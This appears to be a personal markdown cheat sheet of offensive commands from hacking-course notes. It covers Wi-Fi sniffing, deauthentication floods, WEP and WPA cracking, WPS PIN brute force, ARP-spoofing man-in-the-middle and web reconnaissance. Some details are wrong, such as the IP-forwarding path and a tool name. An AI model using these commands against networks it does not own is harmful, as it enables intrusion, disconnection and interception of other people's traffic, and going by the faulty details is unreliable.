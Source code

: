 # dump
Contains non relevant info that I wanna dump


## Table of Content
1. Network Hacking
    1. Pre-connection Attack
    1. Gaining Access
    1. Post-connection Attack
1. Gaining Access
1. Post exploitation
1. Website Hacking 
---

```
iwconfig : Gived info about wireless adapter
ifconfig [interface name] down/up : Make the interface up/down
airmon-ng check kill
iwconfig [interface-name] mode monitor : Changes wireless mode from managed to monitor
ifconfig [interface-name] hw ether [Your_Desired_MAC_Adress]
```

## Network Hacking 

### airodump-ng : Used by wireless interface in monitor mode to capture packet
```
airodump-ng [interface-name] : Sniffs all the wireless network around with their protection level(Open/WEP/WPA/WPA2) and other critical info

airodump-ng --band [a,b,g,n] [interface-name] : capture packet in band specified

airodump-ng --bssid [bssid] --channel [channel number] --write [filename] [interface-name]

aireplay-ng --deauth  100000 -a [access mac] -c [client mac] [interface-name] : Disable a user from using wi-fi
```

### aircrack-ng : Used to crack WEP(IV + key) 
```
aircrack-ng [cap-file-name]
```

### aireplay-ng : Used to generate fake traffic. It comes handy if target wifi is not generating enough traffic
```
aireplay-ng --fakeauth 0 -a [mac-of-AP] -h [mac-of wireless-adapter] [interface-name] : For assocaiation
aireplay-ng --arpreplay  -b [mac-of-AP] -h [mac-of wireless-adapter] [interface-name]
```

### Cracking WPA/WPA2
Only difference in encrption used for message integrity
WPA: TKIP
WPA2: CCMP

WPS: Can be exploited. It was designed to simplify connecting to wireless. Only way to prevent against this is enabling PBC(Push button connect)

```
wash --interface [interface-name] : Shows all the wifi with wps enabled
reaver --bssid [bssid] --channel [channel number] --interface [interface-name] -vvv --no-associate : Bruteforce 8 bit WPS pin which is then used to compute WPA Passkey
```

#### Wordlist Attack
```
MIC of handshake + word list 
aircrack-ng [handshake-capture-file]-w [wordlist] 
```
---
#### Creating Wordlist
crunch [min] [max] [character] -t [pattern] -o [filename]


---
### NetDiscover and Nmap
```
netdiscover -r [range-of-ip] : IPs and Vendor of devices connected to the same network
```

Nmap: Gives information about open port, operating system and running services.
Zenmap: GUI warpper over Nmap


### MITM Attack
Multiple ways to attain this. One way is ARP spoofing.

arpspoof -i [interface-name] -t [target_ip] [gateway_ip]
arpspoof -i [interface-name] -t [gateway_ip] [target_ip]

After these two commands, arp is spoofed but still we has to force out computer to work as router
echo 1 > /proc/sys/ipv4/ip_forward


BetterCap: better than arpspoof.


## Gaining Access


## Post Exploitation
The things which can be done after gaining access to target system.
> keyloggers, opening webcam, using it as pivot

## Website Hacking 

 ### XSS
Persistent XSS : Stored in DB
Reflected XSS : Run on a specific URL
DOM based XSS : 

**Beef** : Used for XSS attack

### ZAP : Zed attach proxy
Automatically find vulnerabilities in web application.

### Information Gathering
```
knock : Find subdomain of target
drib [url] [wordlist] : Web Content server tool to  collect infomration about files on server

ip: [ip] : to get list of all websites on server.
```
#### Best website for info-gathering: 

1. [https://www.robtex.com/](https://www.robtex.com/) 
1. [http://whois.domaintools.com/](http://whois.domaintools.com/)
1. [https://sitereport.netcraft.com/](https://sitereport.netcraft.com/)